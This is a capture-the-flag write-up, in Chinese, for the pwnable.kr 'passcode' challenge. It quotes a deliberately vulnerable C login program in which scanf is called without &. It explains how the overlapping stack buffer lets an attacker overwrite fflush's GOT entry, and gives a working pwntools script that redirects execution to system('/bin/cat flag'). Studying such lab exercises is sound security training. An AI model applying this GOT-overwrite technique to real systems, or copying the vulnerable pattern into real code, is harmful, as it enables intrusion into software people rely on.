 ```c
#include <stdio.h>
#include <stdlib.h>
void login(){
	int passcode1;
	int passcode2;
	printf("enter passcode1 : ");
	scanf("%d", passcode1);
	fflush(stdin);
	// ha! mommy told me that 32bit is vulnerable to bruteforcing :)
	printf("enter passcode2 : ");
        scanf("%d", passcode2);
	printf("checking...\n");
	if(passcode1==338150 && passcode2==13371337){
                printf("Login OK!\n");
                system("/bin/cat flag");
        }
        else{
                printf("Login Failed!\n");
		exit(0);
        }
}
void welcome(){
	char name[100];
	printf("enter you name : ");
	scanf("%100s", name);
	printf("Welcome %s!\n", name);
}
int main(){
	printf("Toddler's Secure Login System 1.0 beta.\n");
	welcome();
	login();
	// something after login...
	printf("Now I can safely trust you that you have credential :)\n");
	return 0;	
}
```

login()裡面的`scanf("%d", passcode1)`沒有用`&`字號 

然後passcode1跟name的位置差96bytes

所以我們可以把4bytes位置塞到passcode1裡面 (scanf執行時會把值存到裡面 所以我們可以構造記憶體位置塞在passcode1中)

然後在scanf那邊在輸入我們要的值

於是把頭腦動到`fflush(stdin)`的GOT位置(0x0804a000)

然後在scanf那邊輸入`system("/bin/cat flag")`的指令位置(0x080485E3)

exploit: 
```python
from pwn import *
r = ssh(host='pwnable.kr',user='passcode',password='guest',port=2222).process("./passcode")
# r = process('./passcode')
print r.recv()
r.sendline('a'*96+p32(0x0804a000))
print r.recv()
r.sendline(str(0x080485E3))
print r.recv()
```
